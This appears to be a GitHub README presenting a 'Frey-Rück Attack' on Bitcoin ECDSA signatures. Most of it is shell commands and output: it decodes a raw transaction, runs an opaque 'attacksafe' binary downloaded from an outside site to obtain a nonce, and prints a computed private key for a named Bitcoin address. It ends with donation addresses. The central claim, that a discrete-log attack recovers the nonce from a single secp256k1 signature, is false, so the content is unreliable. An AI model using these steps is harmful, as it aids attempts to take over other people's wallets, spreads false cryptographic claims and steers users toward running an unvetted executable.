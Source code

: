 # Frey-Rück Attack

---

With a critical vulnerability in the Bitcoin blockchain transaction, we can solve the rather difficult discrete logarithm problem to extract the secret key "K" (NONCE) from the vulnerable ECDSA signature in order to ultimately restore the Bitcoin Wallet, since knowing the secret key we can get a private key. To do this, there are several algorithms from the list of popular attacks on Bitcoin, one of which is the “Frey-Rück Attack on Bitcoin”.



---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/14FreyRuckAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc.exan.tech/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG

https://btc.exan.tech/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72


---



    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


    python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff

S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1

Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool frey_ruck_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


---


    pip3 install ECPy


    python3 point2gen.py 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3



    R          =       0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
    point2gen  =   (0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff , 0x92718ef50eb3f5eb155a244e371194fb5086e58f1d174e88cda0a60a2ed899f7)


---


# ALL CORRECT!


K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = 4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766



---


---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
